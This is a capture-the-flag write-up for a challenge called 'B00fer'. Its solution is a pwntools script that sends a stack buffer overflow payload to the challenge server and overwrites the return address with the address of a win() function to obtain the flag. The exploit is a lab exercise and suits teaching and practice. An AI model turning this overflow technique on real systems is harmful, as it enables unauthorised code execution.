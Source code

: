 # B00fer

Solved by: @vicevirus

## Question:
The Consortium sent us this file and connection info. Looks like they are taunting us.

They are running the file at b00fer.niccgetsspooky.xyz, at port 9001. Try to get them to give up the flag.

## Solution:
```
from pwn import *

# Establish the remote connection
conn = remote('b00fer.niccgetsspooky.xyz', 9001)

# Addresses
win_addr = 0x401227  # Address of win() function

# Overflow payload
payload = b'A' * 32      # Overflow buffer
payload += b'B' * 8      # Overwrite saved frame pointer
payload += p64(win_addr) # Overwrite return address to call win()

# Send payload
conn.recvuntil(b"NO WAY you are getting our flag.\n")
conn.sendline(payload)

# Receive the flag
conn.interactive()
```

**Flag:** ``

